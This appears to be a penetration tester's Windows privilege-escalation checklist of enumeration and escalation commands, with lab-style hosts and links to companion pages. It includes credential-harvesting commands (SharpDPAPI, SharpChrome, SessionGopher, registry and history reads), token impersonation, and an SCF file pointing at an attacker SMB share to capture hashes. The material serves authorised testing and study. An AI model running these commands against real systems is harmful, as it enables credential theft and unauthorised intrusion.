

# 📋 Windows Privesc Checklist

Check for hidden files in powershell with `ls -fo`&#x20;

Refer [https://github.com/maksyche/pentest-everything/tree/master/enum\_and\_exploit/windows](https://github.com/maksyche/pentest-everything/tree/master/enum\_and\_exploit/windows)

## Privileges, groups,etc

* [ ] Check permissions with `whoami /priv` and enable with [FullPowers](https://github.com/itm4n/FullPowers/releases/tag/v0.1)(`nt authority/local system` or `Network service`)
  * [ ] If in administrator group but still no access check [uac.md](uac.md "mention")
  * [ ] [sebackupprivilege.md](sebackupprivilege.md "mention")
  * [ ] [serestoreprivilege.md](serestoreprivilege.md "mention")
  * [ ] _SeImpersonatePrivilege_ ---> [GodPotato](https://github.com/BeichenDream/GodPotato), [potatoes.md](potatoes.md "mention")
  * [ ] [sedebugprivilege.md](sedebugprivilege.md "mention")
  * [ ] [seenabledelegationprivilege.md](seenabledelegationprivilege.md "mention")
  * [ ] [setakeownershipprivilege.md](setakeownershipprivilege.md "mention")
  * [ ] [semanagevolumeprivilege.md](semanagevolumeprivilege.md "mention")
  * [ ] [SeLoadDriverPrivilege](https://0xdf.gitlab.io/2020/10/31/htb-fuse.html#priv-svc-print--system)
  * [ ] [SeMachineAccountPrivilege](https://github.com/0xJs/RedTeaming\_CheatSheet/blob/main/windows-ad/Domain-Privilege-Escalation.md)
*   [ ] Check Group membership with `whoami /groups`

    * [ ] If in _Print Operators_ group --> [seloaddriverprivilege.md](seloaddriverprivilege.md "mention")
    * [ ] [dnsadmins.md](dnsadmins.md "mention") group
    * [ ] [hyper-v-administrators.md](hyper-v-administrators.md "mention") group
    * [ ] &#x20;[server-operators.md](server-operators.md "mention") group
    * [ ] If in the **'Event Log Readers Group'** then use

    ```
    wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
    ```

    to view logs(can be used without creds). Can also use:

    ```
    Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
    ```
* [ ] To check for [gpo.md](gpo.md "mention") use **Powerview**
* [ ] Check for tokens with [incognito](https://github.com/FSecureLABS/incognito/blob/394545ffb844afcc18e798737cbd070ff3a4eb29/incognito.exe)
  * To list:`.\incognito.exe list_tokens -u`
  * To impersonate: `.\incognito.exe execute -c "domain\user" C:\Windows\system32\cmd.exe`
* [ ] To check environment variable: `set`. Check Path to execute
* [ ] View _named pipes_:

```
pipelist.exe /accepteula
```

Or in _powershell_:

```
gci \\.\pipe\
```

* [ ] To check DACLs of all named pipes

```
.\accesschk.exe /accepteula \pipe\
```

To check of a particular pipe:

```
accesschk.exe /accepteula \\.\Pipe\lsass -v
```

* [ ] If in _Ad Recycle Bin_ group try:

```
Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -Filter {ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *
```

* [ ] If applocker is present place executable in `C:\Windows\System32\spool\drivers\color`

## [mimikatz.md](mimikatz.md "mention")

Use mimikatz once Administrator access is gained. Multiple techniques are outlined in the Mimikatz page

## SharpDPAPI

```
.\SharpDPAPI.exe machinecredentials
```

<figure><figcaption></figcaption></figure>

### Common Vulnerabilities

* [ ] [PrintNighmare](https://www.hackingarticles.in/windows-privilege-escalation-printnightmare/)

### Social Engineering

* [ ] Make a scf or [lnk](https://github.com/dievus/lnkbomb) file and put it in frequently accessed shares and start responder :)

scf file:

````
```
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```
````

### Programs & Services

* [ ] To check running services: `tasklist /svc`
* [ ] Check for [weak-permissions.md](weak-permissions.md "mention")
* [ ] Check for [vulnerable-services.md](vulnerable-services.md "mention")
* [ ] Check for [dll-injection.md](dll-injection.md "mention")
* [ ] Applocker info :

```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

* [ ] If Citrix try [citrix-breakout.md](citrix-breakout.md "mention")
* [ ] To get installed applications:

_Remove "select displayname" to display all properties_ 32 bit:

```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

64 bit:

```
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

Also check _Program files_ directory and _Downloads_

* [ ] To get running processes: `Get-Process`

### Network

* [ ] For arp cache: `arp -a`
* [ ] Network config: `ipconfig /all`
* [ ] Routing table:`route`
* [ ] For active ports that are listening: `netstat -ano`
  * [ ] Look for loopback addresses (_127.0.0.1_ and _::1_) that are not listening on the IP Address (_10.129.43.8_) or broadcast (_0.0.0.0_, _::/0_).The reason for this is network sockets on localhost are often insecure due to the thought that "they aren't accessible to the network."

## Files & Creds (PuTTY,Autologon,etc)

* [ ] [credential-hunting.md](credential-hunting.md "mention")
*   [ ] Powershell

    To check if Script Block Logging or Powershell Transcription is turned on:

    ```
    Get-History
    ```

    Clear-History does not delete PSReadline

    ```
    (Get-PSReadlineOption).HistorySavePath
    ```

    Go to that path and check too.

    To display now:

    ```
    type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    ```

    ```powershell
    type C:\Users\Public\Transcripts\transcript01.txt
    ```
* [ ] Check for stored credentials

```
cmdkey /list
```

If stored credentials present can run commands as other users:

```
PS C:\htb> runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

* [ ] Browser Credentials:

```
.\SharpChrome.exe logins /unprotect
```

* [ ] Use _LaZagne_ for getting various credentials
* [ ] To look for saved PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials:

```
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target WINLPE-SRV01
# Locally:
Invoke-SessionGopher -Thorough
```

*   [ ] Clear text passwords in registry. _Autologon_:

    ```
    query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
    ```

    _Putty_:\
    For sessions->

    ```
    reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions
    ```

    For keys and values of session:

    ```
    reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh
    ```
